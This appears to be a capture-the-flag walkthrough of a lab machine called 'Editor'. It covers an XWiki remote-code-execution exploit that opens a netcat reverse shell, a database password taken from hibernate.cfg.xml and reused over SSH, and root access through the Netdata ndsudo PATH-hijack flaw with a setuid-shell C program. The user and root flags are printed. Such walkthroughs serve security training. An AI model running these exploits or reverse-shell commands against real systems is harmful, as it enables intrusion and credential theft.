






## TL;DR

We get `RCE` using known exploit in `XWiki`. Then we find oliver's password inside `hibernate.cfg`. We escalate to root using known exploit on `ndsudo` binary.

### Recon

we start with `nmap`, using this command:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



First, we need to add `editor.htb` and `wiki.editor.htb` to our `/etc/hosts`:
```
10.10.11.80     editor.htb
10.10.11.80     wiki.editor.htb
```

### Get shell

We can see the version of the xwiki is `XWiki Debian 15.10.8`, and when googling for exploits we can see this github repo [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893).

Let's download the script and try to get RCE, or in this case reverse shell:
```bash
curl https://raw.githubusercontent.com/gunzf0x/CVE-2025-24893/refs/heads/main/CVE-2025-24893.py -o CVE-2025-24893.py
python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.168 770 -e /bin/bash'
```



now let paste the regular commands, to make the shell more nice looking:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Achieve password

I started by searching for all config files, then i found 2 files, and one of them contained a password:
```bash
xwiki@editor:/usr/lib/xwiki$ find . -name "*.cfg*" 2>/dev/null
./WEB-INF/hibernate.cfg.xml
./WEB-INF/xwiki.cfg
xwiki@editor:/usr/lib/xwiki$ cat ./WEB-INF/xwiki.cfg | grep pass
# xwiki.superadminpassword=system
xwiki@editor:/usr/lib/xwiki$ cat ./WEB-INF/hibernate.cfg.xml | grep pass
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>

```
So, `theEd1t0rTeam99` is a password, hibernate is used to store credentials for databases.



and these are the relevant lines from `hibernate.cfg.xml`:
```xml
<!-- Configuration for the default database.
         Comment out this section and uncomment other sections below if you want to use another database.
         Note that the database tables will be created automatically if they don't already exist.

         If you want the main wiki database to be different than "xwiki" (or the default schema for schema based
         engines) you will also have to set the property xwiki.db in xwiki.cfg file
    -->
    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property>
    <property name="hibernate.dbcp.poolPreparedStatements">true</property>
    <property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>

    <property name="hibernate.connection.charSet">UTF-8</property>
    <property name="hibernate.connection.useUnicode">true</property>
    <property name="hibernate.connection.characterEncoding">utf8</property>
```

we can try and use this password `theEd1t0rTeam99` to login to oliver's account, we saw earlier, using `ssh oliver@$target`:
```bash
oliver@editor:~$ cat user.txt 
a5ade4f32ae5587972bafe53e64f9fc8
```



### Privilege Escalation

We first start with `sudo -l`, but then we get:
```
Sorry, user oliver may not run sudo on editor.
```

Okay, let's search for setuid file that are owned by `root`, using this command, the `\4000` is like `+4000`, the way to check if file has this setuid bit on:
```bash
oliver@editor:~$ find / -user root -perm /4000 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

I asked chatGPT for any well known PE vulnerabilites, and he pointed to me at `ndsudo`. I found this repo [https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation](https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation), followed the instructions to make `nvme` using this C code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

I compiled in my local machine because there is no `gcc` on the remote machine, simply used `gcc nvme.c -o nvme`:



Then, in the remote machine i donwloaded the `nvme` file to `/tmp/nvme`, changed the `$PATH` variable:
```bash
export PATH=/tmp:$PATH
``` 

and just execute the vuln setuid binary:
```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```



**User Flag:*****`a5ade4f32ae5587972bafe53e64f9fc8`***

**Root Flag:*****`1965deafd9071debf5f12009232cf108`***
